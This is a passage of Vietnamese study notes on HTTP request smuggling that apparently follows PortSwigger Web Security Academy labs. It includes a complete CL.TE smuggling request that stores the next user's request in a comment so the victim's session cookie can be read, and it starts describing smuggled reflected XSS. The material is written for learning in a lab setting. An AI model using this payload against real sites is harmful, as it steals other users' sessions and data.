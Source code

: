 Để thu thập thêm dữ liệu từ yêu cầu của nạn nhân, bạn chỉ cần tăng giá trị của header `Content-Length` trong yêu cầu bị smuggle tương ứng. Tuy nhiên, lưu ý rằng điều này đòi hỏi một số lần thử nghiệm. Nếu bạn gặp phải thông báo timeout, điều đó có nghĩa là `Content-Length` bạn đã chỉ định lớn hơn chiều dài thực tế của yêu cầu của nạn nhân. Trong trường hợp này, chỉ cần giảm giá trị cho đến khi cuộc tấn công thành công.

**Lưu ý** Một hạn chế của kỹ thuật này là nó thường chỉ thu thập dữ liệu cho đến khi gặp dấu phân tách tham số áp dụng cho yêu cầu bị smuggle. Đối với các bài nộp biểu mẫu được mã hóa URL, đó sẽ là ký tự &, nghĩa là nội dung được lưu trữ từ yêu cầu của người dùng nạn nhân sẽ dừng tại ký tự & đầu tiên, có thể xuất hiện trong chuỗi truy vấn.

---

## 4. Exploiting HTTP request smuggling to capture other users' requests
https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

Scan của burp phát hiện lỗ hổng

Khi post comment 1 bài viết ta sẽ cố đánh lừa:
```http
POST / HTTP/1.1
Host: 0a7300180478e5878020354c00710051.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 291

0

POST /post/comment HTTP/1.1
Host: 0a7300180478e5878020354c00710051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 1000

csrf=wRVRqALrSY2ohewCGR76KK0GiwscCJWt&postId=1&name=abc&email=abcd%40gmail.net&website=http%3A%2F%2Fabc.com&comment=abc
```

độ dài dài hơn body nên nó sẽ đợi request tiếp theo, từ đó ta sẽ chỉnh độ dài sao cho bắt được header `cookie` và lấy được value cookie của victim

---

## Using HTTP request smuggling to exploit reflected XSS
Nếu một ứng dụng có lỗ hổng HTTP request smuggling và cũng có lỗ hổng XSS phản chiếu, bạn có thể sử dụng request smuggling để tấn công người dùng khác của ứng dụng. Phương pháp này có hai lợi thế so với việc khai thác XSS phản chiếu thông thường:

Không yêu cầu tương tác với người dùng nạn nhân: Bạn không cần cung cấp cho họ một URL và chờ họ truy cập. Bạn chỉ cần smuggle một yêu cầu chứa payload XSS và yêu cầu tiếp theo của người dùng được xử lý bởi máy chủ phía sau sẽ bị ảnh hưởng.

Có thể khai thác hành vi XSS ở những phần của yêu cầu mà bình thường khó kiểm soát: Ví dụ như các header của HTTP request, là phần không dễ điều chỉnh trong một cuộc tấn công XSS phản chiếu thông thường.
